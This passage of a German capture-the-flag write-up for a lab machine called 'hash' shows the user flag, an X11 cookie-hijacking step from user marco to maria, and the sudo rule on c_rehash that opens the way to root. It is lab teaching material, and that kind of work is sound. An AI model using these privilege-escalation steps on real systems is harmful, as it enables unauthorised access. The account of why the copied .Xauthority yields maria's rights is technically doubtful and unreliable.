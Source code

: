 2.  **User Flag:**
    *   `marco@hash:~$ cat user.txt`
        ```
        hashmanready
        ```

---

## Phase 4: Privilege Escalation (marco -> maria via X11 Hijacking)

1.  **Enumeration als `marco`:**
    *   Im Home-Verzeichnis von `marco` (`/home/marco/`) wurden die Dateien `.x` und `.Xauthority` gefunden. Die Datei `.Xauthority` enthält das "Magic Cookie" für die X11-Authentifizierung.

2.  **Vorbereitung des X11 Hijackings:**
    *   Die `.Xauthority`-Datei von `marco` wurde in das Home-Verzeichnis von `maria` kopiert (dies impliziert Schreibrechte von `marco` auf `/home/maria` oder die Möglichkeit, dies zu tun):
        ```bash
        marco@hash:~$ cp .Xauthority /home/maria/.Xauthority
        ```

3.  **Durchführung des X11 Hijackings:**
    *   Eine RDP-Verbindung wurde als `marco` zum Zielsystem (`192.168.2.110`) hergestellt:
        ```bash
        rdesktop 192.168.2.110
        ```
    *   Innerhalb der RDP-Sitzung als `marco` wurde `xterm` gestartet:
        ```bash
        marco@hash:~$ xterm
        ```
    *   Aufgrund der kopierten `.Xauthority`-Datei authentifizierte sich dieser `xterm`-Prozess erfolgreich gegen die (vermutlich laufende) X11-Sitzung von `maria` und öffnete ein neues Terminalfenster mit den Rechten des Benutzers `maria`.

---

## Phase 5: Privilege Escalation (maria -> root via Sudo/PATH Hijacking)

1.  **Enumeration als `maria`:**
    *   Als `maria` (in der gehijackten `xterm`-Sitzung) wurde `sudo -l` ausgeführt:
        ```
        Matching Defaults entries for maria on hash:
            env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

        User maria may run the following commands on hash:
            (ALL : ALL) NOPASSWD: /usr/bin/c_rehash
        ```
    *   **Kritische Sudo-Regel:** `maria` darf `/usr/bin/c_rehash` als jeder Benutzer (effektiv `root`) ohne Passwort ausführen. Das Skript `c_rehash` ruft intern `openssl` auf.
